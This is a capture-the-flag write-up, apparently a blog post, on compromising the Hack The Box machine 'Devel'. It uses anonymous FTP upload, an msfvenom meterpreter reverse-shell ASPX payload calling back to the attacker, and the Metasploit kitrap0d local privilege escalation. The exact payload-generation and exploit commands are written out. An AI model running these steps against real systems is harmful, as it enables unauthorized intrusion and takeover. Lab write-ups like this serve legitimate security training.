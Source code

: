```yaml
---
"title": "Hack The Box - Devel"
"date": 2020-02-25
"tags": ["windows", "easy", "iis", "mfsvenom"]
"keywords": ["windows", "easy", "iis", "mfsvenom"]
"author": "Ghostbyt3"
"description": "We are going to pwn Devel from Hack The Box."
"featured_image": "/img/htb-devel/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



![Untitled](/img/htb-devel/1.png)

We are going to pwn Devel from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/3](https://www.hackthebox.eu/home/machines/profile/3)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       [DIR](DIR)          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## FTP:

We logged in as ``anonymous`` password can be anything. No files are interested.[br/](br/)
![Untitled](/img/htb-devel/2.png)

## HTTP:

This is just default IIS Page:
![Untitled](/img/htb-devel/3.png)

I started my gobuster and checked anything useful for us.

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/02/25 21:05:15 Starting gobuster
===============================================================
/aspnet_client (Status: 301)
===============================================================
2020/02/25 21:07:45 Finished
===============================================================
```

This looks like the same file as we saw in ``ftp`` this means the ftp is connected with web server.

I confirmed that with opening ``/welcome.png``
![Untitled](/img/htb-devel/4.png)

So now we need to upload a reverse shell in ``ftp`` and access it from web.
I look at the response of the web and the server is running as ``ASP.NET`` so we need to upload ``.aspx`` shell.
```
HTTP/1.1 304 Not Modified
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Fri, 28 Feb 2020 23:49:04 GMT
Connection: close
```

We need to get reverse shell, I used ``msfvenom`` to create the payload.

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=1234 -f aspx > reverse.aspx

![Untitled](/img/htb-devel/7.png)

Now upload it in ``ftp`` and using metasploit to get the shell.[br/](br/)
![Untitled](/img/htb-devel/8.png)

And start the metasploit and select ``exploit/multi/handler`` which provides a listener.
Set the payload that we used in ``msfvenom`` which is ``windows/meterpreter/reverse_tcp``.[br/](br/)
![Untitled](/img/htb-devel/9.png)


Now open the ``/reverse.aspx`` from the web [br/](br/)
![Untitled](/img/htb-devel/10.png)

I get the ``shell`` and checked ``systeminfo``[br/](br/)
![Untitled](/img/htb-devel/11.png)

Where ``Hotfix(s): N/A`` which means the system is not updated so far.

>A hotfix or quick-fix engineering update is a single, cumulative package that includes information that is used to address a problem in a software product.


I tried ``local_exploit_suggester`` this will give us some suggestions to exploit.For that we need to background the session.
```
meterpreter > 
Background session 3? [y/N]  
```
![Untitled](/img/htb-devel/12.png)

We need to enter the session which it need to check.
```
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.28:1234 -> 10.10.10.5:49162 (10.10.10.5)

```
So its session 3.

Now we can run that[br/](br/)
![Untitled](/img/htb-devel/13.png)[br/](br/)
There is a lot of exploits suggested so I picked up random one.

> exploit/windows/local/ms10_015_kitrap0d


```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.28 
LHOST => 10.10.14.28
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 1234
LPORT => 1234
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
SESSION => 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
![Untitled](/img/htb-devel/14.png)


